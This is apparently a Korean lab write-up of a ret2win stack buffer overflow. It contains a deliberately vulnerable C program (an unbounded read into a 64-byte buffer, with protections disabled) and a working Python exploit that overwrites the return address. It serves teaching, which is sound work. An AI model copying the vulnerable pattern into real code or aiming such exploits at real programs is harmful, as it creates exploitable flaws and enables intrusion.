

## 1. 문제 개요

64비트 ELF 바이너리가 주어진다. 프로그램 내부에는 `win()` 함수가 존재하지만, 정상적인 실행 흐름에서는 호출되지 않는다.

**목표는 버퍼 오버플로우를 이용해 `win()` 함수를 실행하는 것이다.**

## 2. 문제 분석

### 2.1 소스 코드

```c
#include <stdio.h>
#include <unistd.h>

void win(void) {
    puts("FLAG{example_stack_overflow}");
    _exit(0);
}

void vuln(void) {
    char buf[64];

    puts("Input:");
    read(0, buf, 200);

    puts("Done");
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

실습을 위해 스택 카나리와 PIE를 비활성화해 컴파일했다.

```bash
gcc -O0 -fno-stack-protector -fno-omit-frame-pointer \
    -fno-pie -no-pie -o bof bof.c
```

### 2.2 주요 코드 분석

```c
char buf[64];
read(0, buf, 200);
```

`buf`는 64바이트 크기의 배열이지만, `read()`는 최대 200바이트를 입력받는다.

따라서 배열의 크기를 초과하는 데이터를 입력하면 인접한 스택 메모리를 덮어쓸 수 있다.

또한 `win()` 함수는 실행되면 플래그를 출력한다.

정상적인 실행 흐름에서는 `win()`을 호출하지 않으므로, 프로그램의 제어 흐름을 변경해야 한다.

## 3. 취약점 분석

### 3.1 Stack Buffer Overflow


`vuln()` 함수에서 스택 버퍼의 크기를 초과하는 입력이 가능하다.

이번 실습 바이너리를 역어셈블한 결과, 버퍼의 시작 주소가 `rbp-0x40`임을 확인했다.

스택 구조를 단순화하면 다음과 같다.

```text
높은 주소
┌──────────────────────┐
│ Return Address (8B)  │ ← 목표
├──────────────────────┤
│ Saved RBP (8B)       │
├──────────────────────┤
│                      │
│ buf[64]              │
│                      │
└──────────────────────┘
낮은 주소
```

`buf`의 시작부터 반환 주소까지의 거리는

\[
64 + 8 = 72\text{ bytes}
\]

이다.

따라서 **72바이트의 데이터 이후에 원하는 함수 주소를 입력하면 반환 주소를 변조할 수 있다.**

### 3.2 win() 함수 주소 확인

다음 명령어로 함수의 주소를 확인했다.

```bash
nm ./bof | grep ' win$'
```

실습 환경에서는 다음 결과가 나왔다.

```text
0000000000401156 T win
```

즉, `win()` 함수의 주소는 `0x401156`이다.

이 값은 컴파일 환경에 따라 달라질 수 있다.

## 4. Exploit

### 4.1 공격 전략

공격 과정은 다음과 같다.

1. 72바이트로 반환 주소 직전까지 덮어쓴다.
2. 반환 주소를 `win()` 함수의 주소로 변경한다.
3. `vuln()`이 종료되면서 `ret` 명령어가 실행되도록 한다.
4. 변경된 반환 주소를 통해 `win()`으로 제어 흐름을 이동시킨다.

### 4.2 Payload 구성

```text
┌────────────────────┬──────────────────┐
│ A × 72             │ win() address    │
│ 72 bytes           │ 8 bytes          │
└────────────────────┴──────────────────┘
```

64비트 환경에서는 주소를 8바이트 리틀 엔디언 형식으로 삽입한다.

### 4.3 Exploit 코드

별도의 라이브러리 없이 Python 표준 라이브러리로 작성했다.

```python
import struct
import subprocess

# win 함수 주소 확인
symbols = subprocess.check_output(
    ["nm", "./bof"], text=True
)

win = next(
    int(line.split()[0], 16)
    for line in symbols.splitlines()
    if line.split()[-1] == "win"
)

# Payload 생성
payload = b"A" * 72
payload += struct.pack("<Q", win)

# 프로그램 실행
result = subprocess.run(
    ["./bof"],
    input=payload,
    capture_output=True
)

print(result.stdout.decode())
```

`struct.pack("<Q", win)`은 64비트 주소를 리틀 엔디언 바이트열로 변환한다.

### 4.4 실행 결과

```text
Input:
Done
FLAG{example_stack_overflow}
```

정상적인 코드 흐름에서는 호출되지 않는 `win()` 함수가 실행되었고, 실습용 플래그가 출력되었다.

## 5. 정리

이번 문제에서는 **Stack Buffer Overflow를 이용해 함수의 반환 주소를 변조하는 방법**을 실습했다.

핵심은 다음과 같다.

- 버퍼 크기보다 많은 데이터를 입력하면 인접 메모리를 덮어쓸 수 있다.
- 스택에 저장된 반환 주소를 덮어쓰면 프로그램의 실행 흐름을 변경할 수 있다.
- 반환 주소까지의 정확한 오프셋을 계산하는 것이 중요하다.
- 이번 실습은 스택 카나리와 PIE가 비활성화된 환경이었으므로 비교적 간단하게 공격할 수 있었다.

### 추가로 공부할 내용

- Stack Canary는 어떻게 버퍼 오버플로우를 탐지하는가?
- PIE와 ASLR이 활성화되면 함수 주소를 어떻게 찾는가?
- NX가 활성화되어도 Return Address Overwrite가 가능한 이유는 무엇인가?
